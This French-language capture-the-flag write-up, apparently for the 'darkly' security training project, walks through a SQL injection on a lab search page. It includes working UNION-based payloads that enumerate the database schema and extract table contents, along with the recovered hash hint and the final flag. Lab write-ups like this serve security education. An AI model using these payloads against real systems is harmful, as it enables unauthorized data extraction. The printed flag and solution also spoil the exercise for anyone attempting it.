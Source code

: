 # SQL INJECTION

## Flag
```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Découverte


Sur la page http://{IP_ADDRESS}/?page=searchimg on injecte cette ligne de sql \
pour connaitre toutes les tables et les colonnes:
```
1 or 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
On peut faire un schéma de la table list_images:
```
|¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯¯|
| list_images table  |
|--------------------|
| id                 |
| url                |
| title              |
| comment            |
|____________________|
```
Une image semble être interessant:
```
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```
Toujours avec le meme genre d'injection sql on peut extraire les informations \
de cette image:
```
1 or 1=1 UNION SELECT title, comment from list_images

commentaire:
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

albatroz:
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```
En suivant les instructions du commentaire on ce retrouve avec:
```
1928e8083cf461a51303633093573c46 -> albatroz -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## Documentation
- [owasp - sql injection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [sqlinjection.net](https://www.sqlinjection.net/category/attacks)

---

[RETURN](https://github.com/jlange91/darkly)
